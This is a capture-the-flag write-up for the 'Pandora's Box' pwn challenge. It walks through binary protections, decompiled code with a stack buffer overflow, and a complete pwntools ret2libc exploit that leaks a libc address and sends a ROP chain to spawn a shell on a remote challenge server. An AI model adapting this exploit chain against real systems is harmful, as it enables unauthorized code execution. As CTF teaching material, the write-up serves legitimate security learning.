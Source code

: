 # Pandora's Box WriteUp by Om Honrao (@Inv1s1bl3#7047)

## Challenge Description
```
You stumbled upon one of Pandora's mythical boxes. Would you be curious enough to open it and see what's inside, or would you opt to give it to your team for analysis?
```

## Challenge Files
```
- pwn_pandoras_box.zip
    ./glibc
    ./glibc/ld-linux-x86-64.so.2
    ./glibc/libc.so.6
    ./flag.txt
    ./pb
```

## Challenge Solution
Pwn category which was weakest for me but somehow managed to do few pwns. We start with initial analysis like `checksec` and `file` command. We get the following output:

Checksec:
```bash
$ checksec pb
[*] '/home/Inv1s1bl3/ctf/Cyber-Apocalypse-2023-The-Cursed-Mission-Writeups/Pwning/Pandoras_Box/challenge/pb'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'./glibc/'
```
File:
```bash
$ file pb
pb: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./glibc/ld-linux-x86-64.so.2, BuildID[sha1]=d0165634ba8886a0cdf61584d8c941d30ff3820e, for GNU/Linux 3.2.0, not stripped
```
So we don't have canary no need to worry about it NX is enabled so we can't run shellcode directly. Lets check the binary with ghidra once and then will head over to gdb.

Main code is pretty simple:
```c 
undefined8 main(void)

{
  setup();
  cls();
  banner();
  box();
  return 0;
}
```
I can't see anything special here but it does call certain functions like setup, cls, banner and box. I don't think i should explain what setup, cls and banner does. So lets check the box function because that's where we have vulnerability:
```c
void box(void)

{
  undefined8 local_38;
  undefined8 local_30;
  undefined8 local_28;
  undefined8 local_20;
  long local_10;
  
  local_38 = 0;
  local_30 = 0;
  local_28 = 0;
  local_20 = 0;
  fwrite("This is one of Pandora\'s mythical boxes!\n\nWill you open it or Return it to the Library  for analysis?\n\n1. Open.\n2. Return.\n\n>> "
         ,1,0x7e,stdout);
  local_10 = read_num();
  if (local_10 != 2) {
    fprintf(stdout,"%s\nWHAT HAVE YOU DONE?! WE ARE DOOMED!\n\n",&DAT_004021c7);
                    /* WARNING: Subroutine does not return */
    exit(0x520);
  }
  fwrite("\nInsert location of the library: ",1,0x21,stdout);
  fgets((char *)&local_38,0x100,stdin);
  fwrite("\nWe will deliver the mythical box to the Library for analysis, thank you!\n\n",1,0x4b,
         stdout);
  return;
}
```
So this just declares some variables and then uses `fwrite` to print some text further it uses `read_num` function to read input from user. If the input is not equal to 2 then it will exit the program. So we have to input 2 to continue. After that it uses `fgets` to read input from user and stores it in `local_38` variable. So we have to input some string here. It asks to enter location of library this made me think this should be something related to `Ret2Libc` attack and indeed it was! We can use `ROP` technique to leak out the Libc Base address and with the base we can find the System Address and then we can use `Ret2Libc` to spawn a shell. So lets start with `ROP` first.

I wasn't sure if ASLR is on on the server so each time i ran my code made a leak. We leak out an address and subtract the offset of it from the starting of libc to get the libc base address.
And then we return back to box() because we don't want program to end right. Further we craft our payload and get the shell!
```python
from pwn import*
#context.log_level       = "DEBUG"
context.arch            = "amd64"

#p = process("./pb")
   
p = remote('165.232.98.69',32149)

elf = context.binary = ELF('./pb', checksec=False)

puts = 0x401030
p.sendlineafter(b">>", b"2")

# Get leak
payload = flat(
    cyclic(0x38),
    0x000000000040142b, #poprdi
    0x403fa0,
    0x401030,
    0x00000000004013a6
    )
p.sendlineafter(b"of the library: ",payload)

p.recvuntil(b"is, thank you!\n\n")
leak = int.from_bytes(p.recv(6),"little") 

#Get libc base
base = leak - 0x80ed0
print("base", hex(base))

p.sendlineafter(b">>", b"2")

#Get shell
payload = flat(
    cyclic(56),
    0x0000000000401016,
    0x000000000040142b,
    base+0x1d8698,
    base+0x0000000000050d60

    )
    
p.sendline(payload)
```

## Flag
```
HTB{r3turn_2_P4nd0r4?!}
```

